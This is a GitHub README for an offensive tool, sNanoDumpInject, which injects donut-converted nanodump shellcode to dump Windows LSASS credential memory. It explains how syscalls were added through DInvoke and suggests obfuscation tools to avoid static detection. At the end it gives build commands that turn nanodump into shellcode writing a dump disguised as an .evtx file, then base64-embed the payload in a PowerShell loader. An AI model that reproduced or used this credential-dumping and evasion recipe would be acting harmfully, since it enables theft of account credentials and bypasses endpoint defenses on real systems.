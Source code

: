 # sNanoDumpInject 

Minor syscall edit to [@s3cur3th1ssh1t](https://twitter.com/ShitSecure)'s [NanoDumpInject.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs) from this [blog post](https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/).  

This repo contains code with donut'ed nanodump. DO NOT RUN random shellcodes inside random 0-star github repos. 

## Credits 

All credits to:
- @s3cur3th1ssh1t, @S4ntiagoP, @rastamouse, @ccob, 
- https://offensivedefence.co.uk/posts/Dynamic-syscalls/ 
- https://github.com/CCob/SharpBlock/blob/master/Program.cs#L37

Original Blog post & code: https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/

## Edits 

Added syscalls for the `Inject()` function. Small project to practice syscalls using DInvoke and creating a small syscall-only DInvoke.

## MISC/TODOs 

- Static Detection for DInvoke usually occurs in DInvoke strings. Use projects like [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) to reduce hits (13 -> 3)

- Learn what this PatchExit function is, and replace with syscalls as well? 


Things for myself 
```
// use "x64 Native Tools for VS" for nmake for donut and nanodump 

# Create donut'ed nanodump - change parameters 
./donut.exe -i nanodump\dist\nanodump.x64.exe -b=1 -t -p "--valid --write C:\windows\temp\trash.evtx" -o <somewhere>\nanodump.bin

# Copy/paste the nanodump base64 to here, and compile. 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<somewhere>nanodump.bin")) | clip

# Copy/paste the base64'ed dll and yeet it into the Invoke-sNanoDump.ps1 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<somewhere>\sNanoDumpInject.dll")) | clip
```